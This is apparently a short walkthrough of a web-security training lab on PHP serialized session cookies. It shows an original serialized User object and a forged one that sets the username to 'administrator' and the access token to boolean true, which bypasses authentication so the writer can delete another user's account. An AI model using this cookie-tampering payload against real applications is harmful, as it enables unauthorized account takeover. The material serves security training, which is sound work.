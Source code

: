 # Modifying serialized data types

## This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login
then /my-account page sent to repeater

![screenshot](./images/lab2_account_page_in_repeater.png)

### step2

```json
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bdrsqrhm9pmae2nve9sezu0h4ub9g6bn";}
```

```json
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
```

![screenshot](./images/lab2_decode_encode_token.png)

### step3

use encoded session id

![screenshot](./images/lab2_admin_panel_session_id.png)

use this session id to delete carlos account and solved the lab
